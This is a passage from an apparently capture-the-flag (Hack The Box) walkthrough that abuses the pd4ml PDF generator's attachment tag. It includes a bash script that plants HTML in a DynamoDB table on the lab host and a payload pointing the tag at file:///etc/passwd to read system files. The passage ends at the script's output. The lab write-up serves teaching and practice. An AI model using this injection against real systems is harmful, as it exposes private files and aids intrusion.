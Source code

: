 The contents of the database are being written to the PDF! Let us research the pdf-creation tool next and search for anything exploitable.

### Researching pd4ml

Let us go to [the official webpage](https://pd4ml.com/) of the tool and take a look at all the available features.

Looking at the [pd4ml cookbook](https://pd4ml.com/cookbook), I came across the [PDF Attachments section](https://pd4ml.com/cookbook/pdf-attachments.htm). That shows that we are able to add attachments to the PDF by using the `<pd4ml:attachment` tag.

The example looks as follows:

```html
<pd4ml:attachment src="http://pd4ml.com/i/logo.png" description="attachment sample" icon="Area"/>/>
```

Now what would happen, if we would change the source to `file:///etc/passwd`?

In order to ease testing, I created a simple bash script to automate the process.

```bash
#!/bin/bash

# Data to insert into table
if [ -z "$1" ];
 then
        echo "[-] Specify a data to insert!"
        exit -1
fi

# Create table
echo "[*] Creating table..."
aws dynamodb create-table --table-name alerts --attribute-definitions AttributeName=title,AttributeType=S --key-schema AttributeName=title,KeyType=HASH --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5 --endpoint-url http://s3.bucket.htb --no-sign-request 1>/dev/null 2>/dev/null

# Insert data into table
echo "[*] Inserting $1 into table..."
aws dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"}, "data": {"S":"'"$1"'"}}' --endpoint-url http://s3.bucket.htb --no-sign-request 1>/dev/null 2>/dev/null

# Trigger pdf creation
echo "[*] Triggering pdf creation..."
curl 127.0.0.1:8000 -d 'action=get_alerts' -s

# Read pdf file
xdg-open http://127.0.0.1:8000/files/result.pdf 1>/dev/null 2>/dev/null
```

Now let us test our assumptions.

```bash
root@darkness:~# bash test.sh "<pd4ml:attachment description='file' src='file:///etc/passwd' icon='Area'/>"
[*] Creating table...
[*] Inserting <pd4ml:attachment description='file' src='file:///etc/passwd' icon='Area'/> into table...
[*] Triggering pdf creation...
```
